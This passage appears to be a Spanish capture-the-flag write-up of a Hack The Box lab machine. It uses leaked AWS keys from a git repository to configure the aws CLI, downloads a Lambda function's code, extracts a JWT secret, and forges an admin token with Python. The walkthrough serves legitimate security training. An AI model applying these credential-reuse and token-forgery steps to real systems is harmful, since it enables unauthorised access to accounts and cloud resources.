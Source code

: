 ```python3
secret = '<secret_key>'  #  O sea puede ser alguna de las que tenemos
if verify_jwt(request.cookies.get('auth'),secret):
```
```console
└─$ curl -s http://10.10.11.134:5000/home --cookie "Auth: AQLA5M37BDN6FJP76TDC" -L | html2text
# Tampoco
```

Hay otro script en python en nuestro git **track_api_CR_148.py**, este no ha sufrido cambios ya que en el git diff
no ha salido nada de él (salvo que censuren la cookie).
Este funciona sobre **cloud.epsilon.htb**, y funciona con AWS lambda

AWS Lambda es un servicio que permite correr una aplicación (ej la tienda de antes de Flask) para no tener que 
depender de montar un servidor.

Para todo lo que tenga que ver con AWS se puede usar este comando **aws**. He tenido un problema con aws y python
por el tema de parentesis, lo solucione con ```sudo pip uninstall aws -> sudo pip install --upgrade awscli```
```console
└─$ aws configure
AWS Access Key ID [None]: AQLA5M37BDN6FJP76TDC
AWS Secret Access Key [None]: OsK0o/glWwcjk2U3vVEowkvq5t4EiIreB+WdFo1A
Default region name [None]: us-east-1
Default output format [None]: json

└─$ aws lambda list-functions --endpoint-url=http://cloud.epsilon.htb 
# "FunctionName": "costume_shop_v1"
└─$ aws lambda --endpoint-url=http://cloud.epsilon.htb get-function --function-name=costume_shop_v1
# Devuelve lo mismo basicamente, pero tambien la ruta
# http://cloud.epsilon.htb/2015-03-31/functions/costume_shop_v1/code
# "PackageType": "Zip"
└─$ curl -s http://cloud.epsilon.htb/2015-03-31/functions/costume_shop_v1/code -O
└─$ mv code code.zip; unzip code
└─$ cat lambda_function.py
# Otro secreto -> secret='RrXCv`mrNe!K!4+5`wYq'
```
Este secreto sirve para el server.py

```console
└─$ python3
>>> import jwt
>>> secret = 'RrXCv`mrNe!K!4+5`wYq'
>>> jwt.encode({'username':'admin'}, secret, algorithm='HS256')
'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.8JUBz8oy5DlaoSmr0ffLb_hrdSHl0iLMGz-Ece7VNtg'
```